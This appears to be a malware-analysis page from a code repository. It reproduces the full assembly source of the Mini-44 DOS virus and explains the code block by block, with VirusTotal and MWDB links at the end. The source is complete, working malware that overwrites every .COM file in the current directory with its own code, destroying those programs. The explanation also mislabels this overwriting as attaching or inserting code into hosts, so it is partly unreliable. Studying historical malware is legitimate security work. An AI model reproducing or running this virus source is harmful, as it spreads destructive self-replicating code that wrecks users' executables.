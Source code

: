 # Mini-44 DOS Virus

## Source Code
```assembly
;44 byte virus, destructively overwrites all the COM files in the
;current directory.
;
;(C) 1994 American Eagle Publications, Inc.

.model small
.code

FNAME   EQU     9EH             ;search-function file name result

ORG     100H

START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H

SEARCH_LP:
        jc      DONE
        mov     ax,3D01H        ;open file we found
        mov     dx,FNAME
        int     21H

        xchg    ax,bx           ;write virus to file
        mov     ah,40H
        mov     cl,42           ;size of this virus
        mov     dx,100H         ;location of this virus
        int     21H

        mov     ah,3EH          ;close file
        int     21H

        mov     ah,4FH          ;search for next file
        int     21H
        jmp     SEARCH_LP

DONE:
        ret                     ;exit to DOS

COM_FILE DB      '*.COM',0      ;string for COM file search

END START
```
## Analyze

1.  **Setup and Initial Search**:
    
    -   `.model small`: This directive tells the assembler to use the small memory model, which is common in DOS where the code and data segments are expected to fit within a single 64KB segment.
    -   `FNAME EQU 9EH`: This sets the label `FNAME` to the hexadecimal value `9EH`, which is used as an offset for where the file name is stored in memory after a file search.
    -   `ORG 100H`: This sets the code's origin to address `0100H`, a common practice for DOS .COM programs, as the first 256 bytes are reserved for the Program Segment Prefix (PSP).
2.  **File Search and Opening**:
    
    -   The program begins by searching for `.COM` files using DOS interrupt `21H` with function `4EH` (find first file).
    -   The file name pattern `*.COM` is used for the search.
    -   If a file is found, the program then opens it using function `3D01H` (open file for writing).
3.  **Modifying the File**:
    
    -   The program appears to write 42 bytes (`CL = 42`) of data from its own code (`DS:0100H`) into the beginning of the found file. This is typically characteristic of a computer virus that replicates by attaching itself to other executable files.
    -   After writing, it closes the file using function `3EH` (close file handle).
4.  **Continuing the Search**:
    
    -   The program then searches for the next `.COM` file using function `4FH`.
    -   If another file is found, the loop continues; otherwise, the program exits.
5.  **Termination**:
    
    -   The program ends with a `ret` instruction, returning control to DOS.

## Details


### 1. Initial Setup

`.model small` 

-   This tells the assembler to use a small memory model, suitable for DOS programs where both code and data segments are combined and should not exceed 64KB.

`FNAME   EQU     9EH             ;search-function file name result` 

-   `FNAME` is defined as a constant with the value `9EH`. This is used as an offset in the Program Segment Prefix (PSP) where DOS stores the filename of the last file found.

`ORG     100H` 

-   Sets the origin of the code to memory address `0100H`. DOS .COM programs start at this offset, following the 256-byte PSP.

### 2. File Search and Opening

```assembly
START:
        mov     ah,4EH          ;search for *.COM (search first)
        mov     dx,OFFSET COM_FILE
        int     21H
```

-   Sets up a call to DOS interrupt `21H` with function `4EH` (find first file matching a pattern). The pattern `*.COM` is provided by the address in `DX`.

```assembly
SEARCH_LP:
        jc      DONE            ;jump to DONE if no file is found
        mov     ax,3D01H        ;open file for writing
        mov     dx,FNAME
        int     21H
```
-   If a file is found, this part tries to open it for writing. `3D01H` in `AX` is the DOS function to open a file. The filename is pointed to by `DX`.

### 3. Writing to the File

```assembly
 xchg    ax,bx           ;swap file handle to BX
        mov     ah,40H          ;prepare to write to the file
        mov     cl,42           ;size of data to write
        mov     dx,100H         ;data location (start of the program)
        int     21H
```
-   After opening the file, it writes 42 bytes from the beginning of the program (`DS:0100H`) to the file. This is typical of a virus that replicates by inserting its code into other executables.

### 4. Closing the File and Searching for the Next File

```assembly
mov     ah,3EH          ;close file
        int     21H

        mov     ah,4FH          ;search for next .COM file
        int     21H
        jmp     SEARCH_LP
```
-   Closes the current file and searches for the next `.COM` file. If another file is found, the process repeats.

### 5. Termination
```assembly
DONE:
        ret                     ;exit to DOS
```
-   Once no more files are found, the program exits and returns control to DOS.

### 6. COM File Pattern
```assembly
COM_FILE DB      '*.COM',0      ;string for COM file search
```
-   This is the data definition for the file search pattern, `*.COM`, used by the program.

## Links

https://www.virustotal.com/gui/file/ad5817a40a07e312c48f3eb3a3f519e0862e1a244ecfeaf961f3a093a34030f5/community
https://mwdb.cert.pl/file/ad5817a40a07e312c48f3eb3a3f519e0862e1a244ecfeaf961f3a093a34030f5